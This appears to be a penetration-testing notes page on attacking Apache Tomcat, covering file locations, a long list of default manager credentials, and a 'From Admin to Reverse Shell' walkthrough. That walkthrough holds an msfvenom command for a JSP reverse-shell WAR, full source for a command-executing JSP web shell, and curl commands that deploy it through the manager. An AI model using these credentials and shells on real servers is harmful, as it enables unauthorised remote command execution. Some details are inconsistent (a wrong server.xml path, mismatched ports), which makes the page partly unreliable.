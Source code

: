 ```yaml
---
description: Tomcat is a web service commonly open in port 8080/tcp.
---
```


# Tomcat

## Introduction

Apache Tomcat is a free and open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies. Tomcat provides a "pure Java" HTTP web server environment in which Java code can run.

## Installation Directory

Depending the version installed or if its installed manually or using `apt`, it would be located in different places.

```text
/opt/tomcat/
/opt/tomcat7/
/opt/tomcat9/
/usr/share/tomcat/
/usr/share/tomcat7/
/usr/share/tomcat9/
```

## Configuration Files

There are serveral important files to look into and take info about the server.

### server.xml

The server.xml file is Tomcat's main configuration file, and is responsible for specifying Tomcat's initial configuration on startup as well as defining the way and order in which Tomcat boots and builds. The elements of the server.xml file belong to five basic categories - Top Level Elements, Connectors, Containers, Nested Components, and Global Settings.

```text
TOMCAT-HOME/conf/web.xml
```

### web.xml

 The web.xml file is derived from the [Servlet](https://www.mulesoft.com/tomcat-servlet) specification, and contains information used to [deploy](https://www.mulesoft.com/tomcat-deploy) and configure the components of your web applications.

```text
TOMCAT-HOME/conf/web.xml
```

### tomcat-users.xml

This last file contains the credentials and privileges of the tomcat users.

```text
TOMCAT-HOME/etc/tomcat-users.xml
```

## Default credentials

SecLists have a list of default credentials in Tomcat:

```text
admin:
admin:admanager
admin:admin
admin:admin
ADMIN:ADMIN
admin:adrole1
admin:adroot
admin:ads3cret
admin:adtomcat
admin:advagrant
admin:password
admin:password1
admin:Password1
admin:tomcat
admin:vagrant
both:admanager
both:admin
both:adrole1
both:adroot
both:ads3cret
both:adtomcat
both:advagrant
both:tomcat
cxsdk:kdsxc
j2deployer:j2deployer
manager:admanager
manager:admin
manager:adrole1
manager:adroot
manager:ads3cret
manager:adtomcat
manager:advagrant
manager:manager
ovwebusr:OvW*busr1
QCC:QLogic66
role1:admanager
role1:admin
role1:adrole1
role1:adroot
role1:ads3cret
role1:adtomcat
role1:advagrant
role1:role1
role1:tomcat
role:changethis
root:admanager
root:admin
root:adrole1
root:adroot
root:ads3cret
root:adtomcat
root:advagrant
root:changethis
root:owaspbwa
root:password
root:password1
root:Password1
root:r00t
root:root
root:toor
tomcat:
tomcat:admanager
tomcat:admin
tomcat:admin
tomcat:adrole1
tomcat:adroot
tomcat:ads3cret
tomcat:adtomcat
tomcat:advagrant
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:s3cret
tomcat:tomcat
xampp:xampp
server_admin:owaspbwa
admin:owaspbwa
demo:demo
```

## From Admin to Reverse Shell

If you have access to the Tomcat Web Application Manager, you are able to upload and deploy a malicious `.war` file.

### Finding the endpoint

First is important to find the endpoint.

```text
/manager/text/list
/manager/list

curl -u tomcat:'password' http://localhost:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
```

### Creating a shell \(.WAR\)

There are serveral ways to create the war.

#### MSFVenom Reverse Shell

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip-addr> LPORT=<port> -f war -o revshell.war
```

#### Manual Web Shell

Create a index.jsp with the following content:

```text
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>

```

And run the following commands:

```text
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war * 
webshell.war is created
```

### Uploading the shell

We just need to upload it and visit the path.

```text
curl --upload-file webshell.war -u tomcat:'$3cureP4s5w0rd123!' http://localhost:8001/manager/text/deploy?path=/shell
OK - Deployed application at context path [/shell]
```

Finally we can visit the path:

```text
http://locahost:8080/shell
```

## References

* [https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat\#post](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#post)
* [https://www.youtube.com/watch?v=yTHtLi9YZ2s](https://www.youtube.com/watch?v=yTHtLi9YZ2s)

